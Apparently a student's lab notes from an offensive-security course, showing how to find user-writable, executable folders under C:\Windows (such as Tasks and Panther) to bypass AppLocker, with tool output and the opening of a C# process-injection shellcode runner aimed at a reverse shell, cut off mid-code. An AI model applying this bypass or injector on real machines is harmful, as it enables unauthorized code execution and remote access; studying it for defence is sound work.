 accesschk.exe "m" C:\Windows -wus

```
RW C:\Windows\Panther
RW C:\Windows\Tasks
RW C:\Windows\tracing
RW C:\Windows\Logs\PBR
...
```

examinig one of these directories 

```cli
C:\Users\misthios\Documents\sysinternals>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

trying to copy and run calc.exe in Tasks folder

![](./calculator_not_opening.png)

but after switching user graphically it is now running.



## Applocker not running on win10 pro

applocker has requirements that it runs only in enterprise windows versions.

Application and Services Logs\Microsoft\Windows, click AppLocker.

in there in the log entries you can find that applocker doesnot work with SKU


### 8.2.1.1 Exercises
1. Repeat the analysis to verify that C:\Windows\Tasks is both writable and executable for the 
“student” user. Execute a copied executable from this directory.

it is running but running from everywhere.

1. Locate another directory in C:\Windows that could be used for this bypass.

`C:\Windows\Panther`

2. Copy a C# shellcode runner executable into one of the writable and executable folders and 
bypass AppLocker to obtain a reverse shell.


```dotnetcli
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
       processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
       dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
```